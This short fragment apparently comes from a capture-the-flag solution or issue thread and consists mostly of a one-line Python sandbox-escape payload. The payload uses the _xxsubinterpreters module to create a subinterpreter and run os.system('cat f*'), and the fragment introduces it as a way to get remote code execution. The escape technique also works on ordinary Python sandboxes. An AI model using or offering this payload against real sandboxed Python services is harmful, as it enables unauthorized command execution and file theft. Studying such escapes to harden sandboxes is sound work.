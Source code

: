 you can use this payload to rce it!
```
__import__('_xxsubinterpreters').run_string(__import__('_xxsubinterpreters').create(), "import os; os.system('cat f*')", None)
```

